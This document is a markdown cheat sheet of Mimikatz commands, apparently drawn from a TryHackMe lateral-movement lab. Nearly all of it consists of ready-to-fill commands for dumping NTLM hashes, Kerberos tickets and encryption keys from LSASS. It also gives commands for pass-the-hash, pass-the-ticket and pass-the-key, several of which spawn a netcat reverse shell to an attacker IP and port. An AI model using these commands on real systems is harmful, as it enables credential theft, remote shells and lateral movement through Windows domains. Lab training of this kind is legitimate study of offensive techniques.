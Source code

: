 # Mimikatz Commands

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

```
privilege::debug
```
```
token::elevate
```
This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available:
```
lsadump::sam
```
This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.
```
sekurlsa::msv
```

We can then use the extracted hashes to perform a Pass the Hash (PtH) attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:
```
token::revert
```
```
sekurlsa::pth /user:[USERNAME] /domain:[DOMAIN] /ntlm:[HASH] /run:"c:\tools\nc64.exe -e cmd.exe [ATTACK-IP] [PORT]"
```
Example:
```
sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe 10.50.61.3 5555"
```
Notice we used token::revert to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work. This would be the equivalent of using runas /netonly but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user. Interestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.  

Sometimes it will be possible to extract Kerberos tickets and session keys from LSASS memory using mimikatz. The process usually requires us to have SYSTEM privileges on the attacked machine and can be done as follows:
```
privilege::debug
```
```
sekurlsa::tickets /export
```
Notice that if we only had access to a ticket but not its corresponding session key, we wouldn't be able to use that ticket; therefore, both are necessary.  

While mimikatz can extract any TGT or TGS available from the memory of the LSASS process, most of the time, we'll be interested in TGTs as they can be used to request access to any services the user is allowed to access. At the same time, TGSs are only good for a specific service. Extracting TGTs will require us to have administrator's credentials, and extracting TGSs can be done with a low-privileged account (only the ones assigned to that account).  

Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command (Example):
```
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, you can use the klist command:
```
klist
```

We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:
```
privilege::debug
```
```
sekurlsa::ekeys
```

Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via Pass-the-Key.  
If we have the RC4 hash:
```
sekurlsa::pth /user:[USERNAME] /domain:[DOMAIN] /rc4:[HASH] /run:"c:\tools\nc64.exe -e cmd.exe [ATTACK-IP] [PORT]"
```
If we have the AES128 hash:
```
sekurlsa::pth /user:[USERNAME] /domain:[DOMAIN] /aes128:[HASH] /run:"c:\tools\nc64.exe -e cmd.exe [ATTACK-IP] [PORT]"
```
If we have the AES256 hash:
```
sekurlsa::pth /user:[USERNAME] /domain:[DOMAIN] /aes256:[HASH] /run:"c:\tools\nc64.exe -e cmd.exe [ATTACK-IP] [PORT]"
```

**********************************************************************

## Reference

* https://tryhackme.com/room/lateralmovementandpivoting
